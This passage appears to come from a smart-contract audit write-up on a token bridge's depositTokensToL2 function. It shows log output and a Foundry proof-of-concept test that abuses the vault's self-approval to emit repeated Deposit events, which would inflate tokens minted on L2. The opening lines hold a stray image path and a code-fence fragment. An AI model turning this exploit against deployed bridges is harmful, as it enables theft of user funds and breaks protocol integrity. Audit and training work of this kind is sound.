 ```application-javascript-env-frontend
    }
```

```text-x-sh
Logs:
  balance of user:  0
  balance of vault:  1000000000000000000000
```

From the execution result, the user's initial `1000e18` tokens have all been transferred into the `vault`. This is because in the code, the second parameter of `safeTransferFrom` is fixed; no matter what second parameter we pass into `depositTokensToL2`, the amount always ends up deposited into the `vault`.

# Unlimited Self-Transfers Causing `BBT` Inflation

This vulnerability has the same root cause as above, except this time it's transferring tokens to oneself. The project partial introduction reads:

> _Successful deposits trigger an event that our off-chain mechanism picks up, parses it and mints the corresponding tokens on L2._

It can be seen that if unlimited self-transfers are possible, then the corresponding tokens will also be unlimited, which would completely break the protocol.

```application-javascript-env-frontend
    constructor(IERC20 _token) Ownable(msg.sender) {
        token = _token;
        vault = new L1Vault(token);
@>      vault.approveTo(address(this), type(uint256).max);
    }
```

From the contract initialization code, we can infer that, using the same method, self-transfers can be triggered. The sender and recipient are the same address. The exploit code is as follows:

```application-javascript-env-frontend
    function testTransferVaultToVault() public {
        address attacker = makeAddr("attacker");
        
        uint256 vaultBalance = 500e18;
        deal(address(token), address(vault), vaultBalance);


        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), address(attacker), vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);


        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), address(attacker), vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
    }
```
